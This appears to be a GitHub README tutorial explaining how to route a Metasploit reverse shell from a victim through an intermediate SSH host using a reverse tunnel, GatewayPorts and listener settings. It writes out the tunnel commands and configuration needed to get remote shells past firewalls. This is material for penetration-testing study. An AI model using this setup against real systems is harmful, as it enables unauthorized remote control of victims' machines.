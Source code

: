 # Reverse shell from behind a firewall using an intermediate SSH host

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or is connected to the Tor network for example.

![Image](images/1.png)

The payload used for the reverse shell can be anything desired, i.e. reverse_tcp, reverse_http, etc.

## Setup
The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using SSH to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) establishes an SSH connection to the proxy (10.0.0.1) and can reach the victim host (172.16.0.1) -

![Image](images/2.png)

In preparation, a reverse SSH tunnel is established from the attacking host to the proxy by invoking the ssh client on the attacking host (192.168.0.1)
```bash
ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
```

The SSH client on the attacker will bind to 127.0.0.1:4444 on the attacking machine (10.0.0.1). The remote SSH server will also listen on port 4444.

![Image](images/3.png)

By default SSHD will bind to the loopback interface only, but we want to allow external connectivity to this port so our victim host can connect. Use the `-g` switch or configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. Verify 127.0.0.1 is not present -

``` bash

$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     

```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1` and the firewall rules on the permits inbound traffic on port 4444.

Now the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -

![Image](images/4.png)

As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively proxy to the attacker over the reverse SSH tunnel previously established -

![Image](images/5.png)

There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces with `ReverseListenerBindAddress 0.0.0.0`

On success, a session will be established between the attacker and the victim hosts -

![Image](images/6.png)

## Example
Recapping and putting this all together with an example payload -

1) On the attacking machine, connect to the SSH proxy and create a reverse tunnel -

```
# ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
```

2) Open msfconsole and configure and execute -  

![Image](images/7.png)
